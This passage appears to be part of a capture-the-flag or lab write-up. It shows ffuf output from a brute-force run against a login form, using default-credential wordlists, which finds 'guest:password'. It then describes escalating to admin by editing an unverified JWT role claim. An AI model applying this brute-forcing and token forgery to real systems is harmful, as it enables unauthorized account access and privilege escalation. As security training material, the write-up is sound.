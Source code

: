 ```bash
 :: Wordlist         : USERFUZZ: D:\Tools\wordlist\web\SecLists-2024.3\Usernames\top-usernames-shortlist.txt
 :: Wordlist         : PASSFUZZ: D:\Tools\wordlist\web\SecLists-2024.3\Passwords\Default-Credentials\default-passwords.txt
 :: Header           : User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=USERFUZZ&password=PASSFUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid login credentials!
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 32ms]Duration: [0:01:17] :: Errors: 0 ::
    * PASSFUZZ: password
    * USERFUZZ: guest

:: Progress: [22338/22338] :: Job [1/1] :: 385 req/sec :: Duration: [0:01:19] :: Errors: 0 ::
```

We can login using `guest:password`.

![login_3-1.png](files/login_3-1.png#center)

We notice one new JWT cookie after successful login. In that our role is `user` we can just change it admin and base64 encode it again; and it will be accepted. The JWT signature is not being verified.

![login_3-2.png](files/login_3-2.png#center)
